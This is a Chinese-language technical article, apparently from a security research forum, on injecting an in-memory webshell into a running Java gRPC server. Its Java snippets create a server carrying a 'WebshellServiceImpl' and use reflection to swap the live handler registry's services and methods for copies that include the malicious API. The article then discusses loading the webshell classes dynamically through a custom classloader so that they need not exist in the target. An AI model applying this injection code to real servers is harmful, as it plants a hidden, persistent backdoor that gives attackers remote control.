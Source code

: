 手动初始化一个带有恶意接口的server对象，并获取其中的services和methods

```java
// 初始化一个带有恶意接口的Server对象，并获取其中的services和methods，添加到当前服务中
Server hr = ServerBuilder.forPort(8082).addService(new WebshellServiceImpl()).build();

Object hr_registry = NsServer.getField(hr,"registry");
List<ServerServiceDefinition> webshell_ser_list = (List<ServerServiceDefinition>)services.get(hr_registry);
Map<String, ServerMethodDefinition<?, ?>> webshell_meth = (Map<String, ServerMethodDefinition<?, ?>>)methods.get(hr_registry);
```

浅拷贝把原来的接口信息都复制到新的对象中

```java

List<ServerServiceDefinition> new_ser = new ArrayList<>(ser);
Map new_meth = new HashMap(meth);

// 把恶意对象的信息添加到新的对象
for(ServerServiceDefinition ssd : webshell_ser_list){
    new_ser.add(ssd);
}

for(String key : webshell_meth.keySet()){
    new_meth.put(key,webshell_meth.get(key));
}

// 反射把registry的services和methods都替换为新创建的对象
services.set(handlerRegistry, new_ser);
methods.set(handlerRegistry, new_meth);

```

这样就完成了注入，可以直接访问恶意的api了

### 动态加载类作为依赖的问题

剩下的一个问题，这个代码里面的webshell相关类是在开发时就写在代码里的，实际利用的时候不可能有，需要想办法动态创建服务，在官方文档中没找到类似的功能，只能考虑手动把相关代码都动态加载。

考虑解决方案的时候，遇到依赖问题，发现这是一个指的思考的问题，最开始使用类似冰蝎的方法，自定义个一个类加载器，去加载发现加载的第一个类无法作为第二个类的依赖，换句话说JVM的缓存里找不到前面动态加载的类。

测试结果标明，用自定义类加载器使用defindclass加载一个类后，函数会返回这个类的class对象，但是这个类并不在缓存中，使用findclass或者findLoadedClass都找不到这个类

这个问题转化一下其实就是defineclass之后，会获得一个class对象，但是这个class对象是否保存在了JVM的缓存中，这涉及到JVM寻找一个类的机制

分析原理，这里是自定义了一个加载器U，新建一个U的对象classloader，通过defineclass加载了一个类，debug发现这个类的信息是挂在`classloader`对象下面的，classloader的父类是`AppClassLoader`，可以看到有3596个class缓存：  
![image2022-12-22_15-51-57.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-4b008325a01952ffe248c7c7d2c20ec87d170cf8.png)

遍历出来发现果然没有我们加载的类

观察`ClassLoader$classes`的注释：  
![image2022-12-22_15-52-30.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-8e90cbc18691a01686f22edd896de3570c2f6df0.png)  
注释说明这个字段的作用是保证这里面的类不被GC，间接说明了这些是需要保留的缓存
